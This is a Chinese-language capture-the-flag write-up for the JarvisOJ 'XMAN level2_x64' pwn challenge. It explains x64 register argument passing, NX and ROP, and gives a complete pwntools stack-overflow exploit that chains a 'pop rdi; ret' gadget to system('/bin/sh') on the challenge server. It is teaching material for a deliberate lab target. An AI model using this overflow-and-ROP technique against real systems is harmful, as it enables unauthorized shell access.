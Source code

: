 ```yaml
---
title: XMAN level2_x64 の Write-Up
date: 2020-05-11 20:36:18
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level2_x64的Write-Up，看上去和[level2](https://coldwave96.github.io/2020/05/01/XMAN-level2/)差不多。实际上由于x64和x86的小小差异，实际操作上稍微有点难度，很适合初学者进一步深入的了解栈。

<!-- more -->

## Step 1

&emsp;&emsp;程序运行图为：

![](/img/XMAN-level2-x64/XMAN1.png)

&emsp;&emsp;然后还是要checksec一下：64位的程序，这次开启了NX保护，这是锁了内存页的执行权限，将禁止栈上的shellcode直接在栈内运行。

![](/img/XMAN-level2-x64/XMAN2.png)

## Step 2

&emsp;&emsp;将程序拖到hopper disassembler中去，发现基本和level2的32位程序一样。那么也许思路还是一样，利用vulnerable_function函数的栈溢出覆盖返回地址，使得程序跳转到system函数，然后覆盖这个函数jmp到的GOT表地址为数据中的“/bin/sh”。

&emsp;&emsp;但是这里由于x64和x86调用函数不同的传参方式，需要换种方式将“/bin/sh”传入到system函数中去。

&emsp;&emsp;简单说一下x64和x86的传参方式：x86是通过栈实现传参，先将参数压入栈中，靠近call指令的是第一个参数；

&emsp;&emsp;而x64前6个参数通过寄存器传参，如果还有更多的参数，再把过多的那几个参数像x86程序那样压入栈中。其中前6个参数依次放在rdi，rsi，rdx，rcx，r8，r9中。

&emsp;&emsp;了解了这些，再和之前level2比较一下两次的vulnerable_function函数有什么不一样：

&emsp;&emsp;x64:

![](/img/XMAN-level2-x64/XMAN3.png)

&emsp;&emsp;x86：

![](/img/XMAN-level2-x64/XMAN4.png)

&emsp;&emsp;可见在x64中system函数的参数是通过edi这个寄存器传入的，所以我们的思路变成覆盖edi的值。加上刚开始chesec时发现NX保护是开启的，那么我们自然而然的想到ROP链。

## Step 3

&emsp;&emsp;关于ROP，全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。其实这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码（也即gadgets）。

&emsp;&emsp;具体的ROP技术我会继续学习，这里就不详细解释，简单来说这里利用程序自己带有pop edi/rdi;ret语句达到给edi赋值的效果。pop edi语句是将当前的栈顶元素传递给edi，在执行pop语句时，只要保证栈顶元素是”/bin/sh”的地址，并将返回地址设置为system即可实现本次的ROP链。

&emsp;&emsp;而pop edi；ret语句的地址可以通过ROPgadget去找：

![](/img/XMAN-level2-x64/XMAN5.png)

&emsp;&emsp;由于本次的程序没有开启内存地址随机化，所以找到的地址是可以直接写在EXP代码中的。

&emsp;&emsp;下面具体的解释一下针对这个程序构建的EXP思路，示意图如下所示：

![](/img/XMAN-level2-x64/XMAN6.png)

&emsp;&emsp;最左边是我们理想中布局好的栈帧分布，上方是高地址，下方是低地址，所以栈是向下“生长”的。

&emsp;&emsp;首先在main函数跳转进入vulnerable_function函数前，将会在内存中压入该函数的返回地址即ret_addr，然后函数保存当前栈帧状态EBP，向系统要了0x80字节的Buf。

&emsp;&emsp;而构造payload时，首先要覆盖函数返回地址为之前我们通过ROPgadget找到的地址，此时的栈顶为“/bin/sh”的地址。`pop edi`会将“/bin/sh”读入到edi中去，然后将ret回到的地址覆盖为system函数的入口就满足了x64程序通过寄存器传参的设定，完美的创造了ROP链。

&emsp;&emsp;具体的EXP代码为：

```Python
from pwn import *

sh = remote('pwn2.jarvisoj.com','9882')
#sh = process('./level2_x64')

elf = ELF('./level2_x64')
 
sys_addr = elf.symbols['system']
rop_addr = 0x4006b3
shell_addr = elf.search('/bin/sh').next()
 
payload = 'a' * (0x80 + 0x8) + p64(rop_addr) + p64(shell_addr) + p64(sys_addr)
 
sh.send(payload)
 
sh.interactive()
sh.close()
```

&emsp;&emsp;运行结果如下图：

![](/img/XMAN-level2-x64/XMAN7.png)

